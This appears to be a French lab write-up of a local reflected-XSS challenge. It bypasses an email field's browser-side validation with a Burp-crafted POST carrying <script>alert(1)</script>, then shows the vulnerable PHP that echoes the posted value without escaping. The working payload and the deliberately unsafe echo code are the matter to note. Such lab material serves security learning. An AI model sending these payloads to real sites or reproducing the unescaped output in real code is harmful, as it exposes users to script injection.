 # xss1

## Exploitation

Le premier challenge propose de renseigner son adresse email grâce à formulaire HTML :&#x20;

![](<../../../.gitbook/assets/image (216).png>)

Le champ est de type `email` et possède donc une validation front :

```html
<input type="email" class="form-control" id="user_email" name="user_email" placeholder="email@site.com" required>
```

![](<../../../.gitbook/assets/image (36).png>)

Pour injecter ma payload il me faudra contourner cette protection, ici en passant par Burp :&#x20;

```http
POST /xss1/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss1/

user_email=<script>alert(1)</script>&submit=Envoyer
```

L'injection fonctionne et la boite de dialogue s'affiche :&#x20;

![](<../../../.gitbook/assets/image (151).png>)

## Analyse du code source

L'analyse est ici plutôt simple, car le code PHP ne possède aucune protection et ne fait qu'afficher le contenu de la variable `$_POST['user_email']` via la directive `echo` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }
?>

<?php if (isset ($email) && !empty ($email)): ?>
  <div class="row">
    <p style="color:red;" class="well"><strong></strong><?php echo $email; ?> is not registered.</p>
  </div>
<?php endif; ?>
```
